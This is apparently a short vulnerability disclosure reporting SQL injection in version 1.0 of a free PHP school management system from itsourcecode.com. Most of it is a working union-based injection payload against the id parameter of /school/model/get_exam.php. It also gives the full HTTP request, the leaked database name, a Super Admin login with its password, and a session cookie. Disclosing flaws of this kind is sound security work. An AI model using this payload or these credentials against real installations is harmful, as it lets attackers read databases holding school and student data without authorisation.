 # Advanced School Management System v1.0 by itsourcecode.com has SQL injection

Login account: suarez081119@gmail.com/12345 (Super Admin account)

vendors: https://itsourcecode.com/free-projects/php-project/advanced-school-management-system-in-php-with-source-code/

Vulnerability File: /school/model/get_exam.php?id=

Vulnerability location: /school/model/get_exam.php?id=,id

[+] Payload: /school/model/get_exam.php?id=-1%20union%20select%201,database()--+ // Leak place ---> id

Current database name: std_db,length is 6


```sql
GET /school/model/get_exam.php?id=-1%20union%20select%201,database()--+ HTTP/1.1
Host: 192.168.1.19
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: PHPSESSID=kh42r202aj35u61brcutn42s96
Connection: close
```

![image](https://user-images.githubusercontent.com/54017627/171970953-f59f04d4-daff-4812-8b2b-ab38e369e949.png)
